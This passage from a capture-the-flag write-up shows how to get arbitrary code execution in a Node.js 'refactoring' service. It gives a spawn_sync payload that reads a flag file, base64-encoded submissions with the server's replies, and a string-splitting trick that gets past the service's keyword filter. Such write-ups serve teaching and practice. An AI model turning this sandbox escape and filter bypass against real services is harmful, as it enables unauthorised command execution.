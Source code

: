 Looks like it's using the same `not-a-real-refactoring-tool` npm package. Let's try re-using our exploit from part 1:

```js
function a() {
    '#execute'
    let result = process.binding("spawn_sync").spawn({ file: "cat", args: ["cat", "./flag"], stdio: [{ type: "pipe", readable: true, writable: false }, { type: "pipe", readable: false, writable: true }, { type: "pipe", readable: false, writable: true },], }); let output = result.output[1].toString(); console.log(output)
}
a();
```

Base64 encoding this and sending it to the server:

```
Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
ZnVuY3Rpb24gYSgpIHsNCiAgICAnI2V4ZWN1dGUnDQogICAgbGV0IHJlc3VsdCA9IHByb2Nlc3MuYmluZGluZygic3Bhd25fc3luYyIpLnNwYXduKHsgZmlsZTogImNhdCIsIGFyZ3M6IFsiY2F0IiwgIi4vZmxhZyJdLCBzdGRpbzogW3sgdHlwZTogInBpcGUiLCByZWFkYWJsZTogdHJ1ZSwgd3JpdGFibGU6IGZhbHNlIH0sIHsgdHlwZTogInBpcGUiLCByZWFkYWJsZTogZmFsc2UsIHdyaXRhYmxlOiB0cnVlIH0sIHsgdHlwZTogInBpcGUiLCByZWFkYWJsZTogZmFsc2UsIHdyaXRhYmxlOiB0cnVlIH0sXSwgfSk7IGxldCBvdXRwdXQgPSByZXN1bHQub3V0cHV0WzFdLnRvU3RyaW5nKCk7IGNvbnNvbGUubG9nKG91dHB1dCkNCn0NCmEoKTs=
Unsafe code detected! Exiting...
Goodbye!
```

We get the response `Unsafe code detected! Exiting...`. To try to narrow down what is being filtered, let's instead just send the string `execute` base64 encoded:

```
Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
ZXhlY3V0ZQ==
Unsafe code detected! Exiting...
Goodbye!
```

Looks like the server is detecting occurences of the string `execute`. However, we know that the refactoring tool performs simplification of expressions, so maybe we can try splitting up `#execute` at the top of our exploit. For testing, let's try:

```js
function a() {
    '#exe'+'cute'
    console.log("Arbitrary code execution?!?!?")
}
a();
```

Sending this off:

```
Welcome to Refactor as a Service!
Please enter your base64 encoded JavaScript code for processing:
ZnVuY3Rpb24gYSgpIHsNCiAgICAnI2V4ZScrJ2N1dGUnDQogICAgY29uc29sZS5sb2coIkFyYml0cmFyeSBjb2RlIGV4ZWN1dGlvbj8hPyE/IikNCn0NCmEoKTs=
Refactored Code:
function a() {
  ("#execute");
  console.log("Arbitrary code execution?!?!?");
}
a();

Goodbye!
```
